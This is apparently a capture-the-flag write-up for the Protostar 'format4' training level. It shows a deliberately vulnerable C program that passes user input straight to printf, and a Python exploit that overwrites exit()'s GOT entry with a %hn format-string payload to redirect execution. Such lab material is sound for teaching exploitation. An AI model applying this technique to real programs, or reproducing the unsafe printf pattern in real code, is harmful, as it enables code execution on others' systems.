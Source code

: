 # Format Four

## Description

format4 looks at one method of redirecting execution in a process.

Hints:

* objdump -TR is your friend

This level is at /opt/protostar/bin/format4

## Source code

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);  
}

int main(int argc, char **argv)
{
  vuln();
}
```

## Exploit code

```python
fmt_offset = 4
win  = 0x080484b4
exit = 0x08049724

payload = "\x24\x97\x04\x08" + "%33968c" + "%4$hn"
print(payload)
```

Level passed!

<p align="center">
    <img src="./done.png">
</p>